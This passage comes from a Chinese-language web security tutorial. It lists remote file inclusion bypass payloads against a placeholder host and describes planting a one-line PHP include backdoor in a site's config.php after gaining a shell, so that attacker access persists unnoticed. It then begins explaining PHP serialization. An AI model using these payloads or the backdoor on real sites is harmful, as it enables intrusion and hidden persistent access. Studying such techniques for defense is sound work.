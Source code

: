 **绕过方法：**  

```
filename=http://www.xxx.com/FI/php.txt?
filename=http://www.xxx.com/FI/php.txt%23
filename=http://www.xxxi8.com/FI/php.txt%20
filename=http://www.xxx.com/FI/php.txt%00
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaAQiarJoyjibmrZu5iaNbfaKVP9joWznYUkjfS5ZbwNHVcAdiaIk2giasy2Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcvia0qtetZwiaBeticdzSJhoUFo20diaG0WY98L8j2BblnIibosqfrnHy5E6EQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcvia8dx8JJibZQIjMib4Rf10c8fib3elnhzIaDvW858GE6jRl1ImCzjV5enyA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviauic52y355keQiaJCYvNCtO0ujgbpNKFUOZ8JEZsBpAhrlRQy4T0UYJhw/640?wx_fmt=png)

**利用远程文件包含进行权限维持**
------------------

include 代码不会报毒。所以我们在 getshell 后在网站配置文件中写入包含代码 (如：config.php,<?php include($\_GET\['x'\]);?> 管理员一般不会修改配置文件源代码) 里面插入文件包含代码。如果目标 allow\_url\_fopen 和 allow\_url\_include 状态都为 on。既可以永久进行远程包含，达到权限维持的目的。

**二、漏洞梳理篇之 php 反序列化漏洞**
=======================

**1\. 序列化函数 serialize()**

序列化的目的是方便数据的传输和存储。当在 php 中创建了一个对象后，可以通过 serialize() 函数把这个对象转变成一个字符串，保存对象的值方便之后的传递与使用。测试代码如下；

```
<?php
class chybeta{
    var $test = '123';
}
$class1 = new chybeta;
$class1\_ser = serialize($class1);
print\_r($class1\_ser);
?>
#创建一个对象，然后序列化并输出
```

代码执行输出结果：_O:7:“chybeta”:1:{s:4:“test”;s:3:“123”;}_

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviajGhU1YBbrjjGXL3INnRzUnhO5LPytCo4MzyauheqDVlEsZnib4OPlYw/640?wx_fmt=png)  

返回结果中各字符的含义分别为：

```
O  代表存储的是对象（object）,假如你给serialize()传入的是一个数组，那它会变成字母a。
7  表示对象的名称有7个字符。"chybeta"表示对象的名称。
1  表示有一个值
    {s:4:"test";s:3:"123";}中，
    s  表示字符串
    4  表示该字符串的长度，
    "test"  为字符串的名称
    "123"   为字符串的内容
```
